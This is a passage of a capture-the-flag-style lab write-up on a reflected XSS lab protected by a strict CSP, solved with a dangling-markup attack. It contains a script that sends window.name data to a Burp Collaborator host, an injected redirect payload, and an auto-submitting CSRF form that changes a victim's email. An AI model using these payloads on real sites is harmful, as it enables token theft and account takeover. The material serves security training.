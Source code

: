 ```
    </html>
```

### Lab: Reflected XSS protected by very strict CSP, with dangling markup attack

This lab using a strict CSP that blocks outgoing requests to external web sites.

To solve the lab, perform a cross-site scripting attack that bypasses the CSP and exfiltrates the CSRF token using Burp Collaborator. You need to label your vector with the word "Click" in order to induce the simulated victim user to click it. For example:&#x20;

```
<a href="">Click me</a>
```

```
/my-account?email=test
In response:
<input required type="email" name="email" value="test">
```

**Exploit Server ->**

```
<script>
if(window.name) {
new Image().src='//xlm3ivay5f7iqudzjk8jv7nuclib60.burpcollaborator.net?'+encodeURIComponent(window.name);
} else {
location = 'https://ac571f881f571a6dc040441a007e00db.web-security-academy.net/my-account?email=%22%3E%3Ca%20href=%22https://exploit-ac661f0c1f201ae2c02a4418017a0068.web-security-academy.net/exploit%22%3EClick%20me%3C/a%3E%3Cbase%20target=%27';
}
</script>
```

csrf -> MMzLWRNQx3jtLpcfqf5ecVAx2DBrLuqh

Intercepted request of updating mail address -> Engagement Tools -> CSRF PoC Generator -> Options -> Include Auto-Submit Script(Checked) -> Regenerate -> Replace csrf value with it

**Exploit Server ->**

```
Body:
  <html>
    <!-- CSRF PoC - generated by Burp Suite Professional -->
    <body>
    <script>history.pushState('', '', '/')</script>
      <form action="https://ac571f881f571a6dc040441a007e00db.web-security-academy.net/my-account/change-email" method="POST">
        <input type="hidden" name="email" value="test&#64;test&#46;com" />
        <input type="hidden" name="csrf" value="MMzLWRNQx3jtLpcfqf5ecVAx2DBrLuqh" />
        <input type="submit" value="Submit request" />
      </form>
      <script>
        document.forms[0].submit();
      </script>
    </body>
  </html>
```
